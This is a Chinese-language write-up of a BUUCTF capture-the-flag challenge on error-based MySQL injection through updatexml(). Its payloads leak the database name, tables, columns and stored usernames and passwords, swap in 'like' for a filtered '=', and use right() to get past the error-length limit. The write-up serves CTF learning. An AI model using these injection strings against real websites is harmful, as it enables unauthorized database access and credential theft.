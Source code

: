 

### right 绕过显示字符限制

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/6848e66a58cb8da5c842e442.jpg)

初次尝试万能密码登录成功，说明闭合为单引号

![](https://pic1.imgdb.cn/item/6848e79b58cb8da5c842f049.jpg)

`updatexml()` 用于更新 XML 数据，它接受 3 个参数

```sql
# xml_target：目标 XML 文本（必须是合法 XML 格式，否则报错）
# xpath_expr：XPath 表达式，用于选中 XML 中的节点
# new_value：要更新的新值
UPDATEXML(xml_target, xpath_expr, new_value)
```

在 MySQL 中使用 `updatexml()` 函数报错时，它通常会抛出一个 **XPATH 语法错误**，并将你传入的第二个参数（即 XPath 表达式）的一部分直接显示在错误信息中

第一、三个参数肯定会报错，所以我们将 `database()` 放在中间，这样就会执行显示出数据库名

可以再加上 `concat()` 函数将显示内容包裹起来，`0x7e` 即波浪号 `~`

```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/68495faa58cb8da5c8450122.jpg)

接下来就是爆表，这里注意 `=` 被过滤了使用 `like` 代替

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849601f58cb8da5c84503d9.jpg)

接下来爆字段

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849604658cb8da5c8450538.jpg)

查字段内容

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(username,'~',password))from(H4rDsq1)),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849608258cb8da5c845079a.jpg)

使用 `right()` 突破字符限制

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))#
```

![](https://pic1.imgdb.cn/item/6849608e58cb8da5c8450840.jpg)
